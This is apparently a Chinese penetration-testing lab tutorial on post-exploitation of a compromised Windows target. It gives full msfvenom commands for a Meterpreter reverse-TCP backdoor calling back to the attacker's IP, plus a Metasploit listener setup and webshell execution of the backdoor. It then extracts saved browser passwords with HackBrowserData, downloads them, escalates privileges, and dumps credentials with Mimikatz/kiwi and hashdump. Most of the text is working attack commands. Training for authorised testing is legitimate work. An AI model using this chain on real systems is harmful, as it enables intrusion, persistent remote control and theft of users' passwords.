# 靶场渗透：P126：深入攻击









## 概述
在本节课中，我们将学习如何对一个已初步攻陷的系统进行深入利用。我们将通过植入系统后门、获取浏览器保存的密码以及尝试获取系统管理员密码等步骤，来演示一次完整的横向渗透攻击链。

上一节我们通过Git信息泄露漏洞获取了数据库密码，但发现无法直接解密博客后台的密码。本节中，我们来看看如何通过其他路径来达成目标。







## 生成系统后门木马
既然直接解密数据库密码的路径受阻，我们需要寻找其他攻击入口。一个常见的方法是向目标系统植入一个后门木马，从而获得一个持久的控制通道。





以下是生成一个Windows系统后门木马的步骤：

1.  **确定本地IP地址**：首先，我们需要知道攻击者（Kali Linux）在局域网中的IP地址，以便木马能够回连。使用 `ifconfig` 命令查看，通常关注 `eth0` 或 `ens33` 这类以太网接口的地址。
    ```bash
    ifconfig
    ```
    假设我们获取到的Kali IP地址是 `192.168.80.149`。



2.  **使用MSFVenom生成木马**：`msfvenom` 是Metasploit框架中用于生成载荷（Payload）的工具。我们使用以下命令生成一个Windows可执行文件（.exe）的后门。
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.80.149 LPORT=6666 -f exe -o /root/Desktop/backdoor.exe
    ```
    *   `-p windows/meterpreter/reverse_tcp`: 指定使用的载荷为Meterpreter反向TCP连接。
    *   `LHOST=192.168.80.149`: 指定回连的IP地址（即你的Kali IP）。
    *   `LPORT=6666`: 指定回连的端口号。
    *   `-f exe`: 指定输出格式为Windows可执行文件。
    *   `-o /root/Desktop/backdoor.exe`: 指定输出文件的路径和名称。









执行命令后，木马文件 `backdoor.exe` 将生成在Kali的桌面上。

## 上传并执行木马
生成了木马后，我们需要将其传送到目标机器（靶机）并运行它。



1.  **上传木马**：利用之前通过Git泄露获得的Webshell（例如中国菜刀连接），将生成的 `backdoor.exe` 文件上传到目标服务器的可访问目录。



2.  **启动监听器**：在木马执行前，我们需要在Kali上启动一个监听器来接收木马的连接。打开终端，输入以下命令：
    ```bash
    msfconsole
    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST 192.168.80.149
    set LPORT 6666
    exploit
    ```
    这将启动Metasploit的监听模块，等待木马连接。

3.  **在目标机器上执行木马**：通过Webshell的“模拟终端”或命令执行功能，运行上传的 `backdoor.exe` 文件。命令可能类似于：
    ```bash
    start backdoor.exe
    ```
    或者直接指定路径执行。







4.  **获取Meterpreter会话**：如果一切顺利，执行木马后，在Kali的 `msfconsole` 终端中，你会看到一个新的Meterpreter会话（session）被建立。输入 `sessions` 查看，然后使用 `sessions -i <会话ID>` 与之交互。
    ```bash
    sessions
    sessions -i 1
    ```
    现在，你已经获得了目标系统的一个Meterpreter shell，可以进行更深层次的操作。





## 获取浏览器保存的密码
控制了目标系统后，我们可以尝试获取用户浏览器中保存的密码，这可能是获取其他系统（如博客后台）凭证的有效途径。



1.  **上传密码提取工具**：我们将使用一个名为 `HackBrowserData` 的工具。首先，将该工具的可执行文件通过Meterpreter会话上传到目标机器。
    ```bash
    upload /path/to/hack-browser-data.exe C:\\Users\\Public\\
    ```

2.  **执行工具并下载结果**：在Meterpreter会话中，切换到工具所在目录并执行它。该工具会静默收集浏览器数据并生成结果文件。
    ```bash
    cd C:\\Users\\Public\\
    execute -H -f hack-browser-data.exe
    ```
    执行后，工具通常会在当前目录生成一个包含结果的文件夹（如 `results`）。我们需要将其中包含密码的文件（例如 `passwords.csv`）下载回Kali进行分析。
    ```bash
    download C:\\Users\\Public\\results\\passwords.csv /root/Desktop/
    ```









3.  **分析获取的密码**：在Kali上打开下载的 `passwords.csv` 文件，查找与目标博客后台（Joomla）相关的URL和密码记录。找到后，尝试使用该密码登录博客后台管理系统。



## 尝试获取系统密码
除了浏览器密码，我们还可以尝试直接获取Windows系统的登录密码。这对于Windows 7及更早系统可能有效，但对于Windows 10/11，通常只能获取密码的哈希值（Hash）。









1.  **提升权限**：在Meterpreter会话中，首先尝试提升到系统最高权限（SYSTEM）。
    ```bash
    getsystem
    ```







2.  **加载Mimikatz模块并获取密码**：Mimikatz是一款强大的密码提取工具，已集成在Metasploit中。加载它并尝试获取明文密码。
    ```bash
    load kiwi
    creds_all
    ```
    *   对于Windows 7，`creds_all` 命令有可能直接显示出管理员（Administrator）的明文密码。
    *   如果无法获取明文，则获取密码的NTLM哈希值。
        ```bash
        hashdump
        ```
        获取到的哈希值形如 `Administrator:500:AAD3B435B51404EEAAD3B435B51404EE:31D6CFE0D16AE931B73C59D7E0C089C0:::`，可以尝试使用彩虹表或在线工具进行破解，或者用于“哈希传递”（Pass-the-Hash）攻击。

## 总结
本节课中我们一起学习了深入攻击的完整流程。我们从生成并植入系统后门开始，建立了对目标机器的持久控制。随后，利用控制权限提取了用户浏览器中保存的密码，成功登录了之前无法直接破解的Joomla博客后台。最后，我们还尝试了获取Windows系统本身的密码或哈希值，为可能的横向移动做准备。



这个流程展示了渗透测试中常见的思路：当一条路径受阻时，灵活转向，利用已获得的权限挖掘更多信息，最终达成核心目标。请记住，所有这些操作都应在合法授权的靶场或测试环境中进行。